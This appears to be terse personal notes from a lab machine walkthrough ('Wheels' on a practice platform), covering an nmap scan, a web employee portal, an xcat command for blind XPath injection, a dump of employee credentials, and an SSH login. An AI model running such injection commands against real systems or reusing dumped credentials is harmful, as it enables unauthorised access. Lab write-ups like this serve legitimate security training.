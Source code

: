 # Recon

## nmapAutomator.sh (Full)
```
$ ./nmapAutomator.sh -H wheels.pg -t Full -o full

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Wheels - Car Repair Services
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![080bbfde5c8f4e3b7fbcb9ee09498b2d.png](../_resources/080bbfde5c8f4e3b7fbcb9ee09498b2d.png)

register as admin
![490b7fff7027a0c4def225861e6926c1.png](../_resources/490b7fff7027a0c4def225861e6926c1.png)

no admin
![d0f7352faae5cbcabaf35582fa95f0d9.png](../_resources/d0f7352faae5cbcabaf35582fa95f0d9.png)

emp portal
![5a7d1ebd2ebcf0e7feadc9b9ab036940.png](../_resources/5a7d1ebd2ebcf0e7feadc9b9ab036940.png)

assets
![cc6ede1f73c60f471f78a458b2ba71c5.png](../_resources/cc6ede1f73c60f471f78a458b2ba71c5.png)

wheels.service
![321457c15fe49303e7e54936749008a3.png](../_resources/321457c15fe49303e7e54936749008a3.png)

reg service
![974204e5ef18b3bb9f0f674ca9489c1e.png](../_resources/974204e5ef18b3bb9f0f674ca9489c1e.png)

emp portal success
![a69786d5d1848b7b232743056b8d8d9d.png](../_resources/a69786d5d1848b7b232743056b8d8d9d.png)

search car
![41ad275874e16145013293e941e2d769.png](../_resources/41ad275874e16145013293e941e2d769.png)

search bike
![f0d984907ebfded2c82bc71ec5a5c4e6.png](../_resources/f0d984907ebfded2c82bc71ec5a5c4e6.png)

sqli/xxe?
![40c3af69246605d8007d4e768025e634.png](../_resources/40c3af69246605d8007d4e768025e634.png)

https://xcat.readthedocs.io/

`xcat run http://wheels.service/portal.php --headers=headers.txt work work=bike --true-string=dan`

![77fc2c78348a90e39df09a36aeeb7d12.png](../_resources/77fc2c78348a90e39df09a36aeeb7d12.png)

```
<works>
	<work>
		<id>
			1
		</id>
		<employee>
			bob
		</employee>
		<password>
			Iamrockinginmyroom1212
		</password>
		<service>
			car
		</service>
	</work>
	<work>
		<id>
			2
		</id>
		<employee>
			alice
		</employee>
		<password>
			iamarabbitholeand7875
		</password>
		<service>
			car
		</service>
	</work>
	<work>
		<id>
			3
		</id>
		<employee>
			john
		</employee>
		<password>
			johnloveseverontr8932
		</password>
		<service>
			car
		</service>
	</work>
	<work>
		<id>
			4
		</id>
		<employee>
			dan
		</employee>
		<password>
			lokieismyfav!@?12
		</password>
		<service>
			bike
		</service>
	</work>
	<work>
		<id>
			5
		</id>
		<employee>
			alex
		</employee>
		<password>
			alreadydead???234
		</password>
		<service>
			bike
		</service>
	</work>
	<work>
		<id>
			6
		</id>
		<employee>
			selene
		</employee>
		<password>
			lasagama90809!@
		</password>
		<service>
			bike
		</service>
	</work>
</works>
```

`$ ssh bob@wheels.pg`

![675f4bded1e322c7a2222608bd686a9e.png](../_resources/675f4bded1e322c7a2222608bd686a9e.png)

![6377e4f9f7a683ca73f7b2ddb037a8bb.png](../_resources/6377e4f9f7a683ca73f7b2ddb037a8bb.png)

![87330c64d1239848a65df039a9a86e8f.png](../_resources/87330c64d1239848a65df039a9a86e8f.png)

![df51f3854666b4c7b96be5f7979d1b0c.png](../_resources/df51f3854666b4c7b96be5f7979d1b0c.png)

TODO: Study up on BO's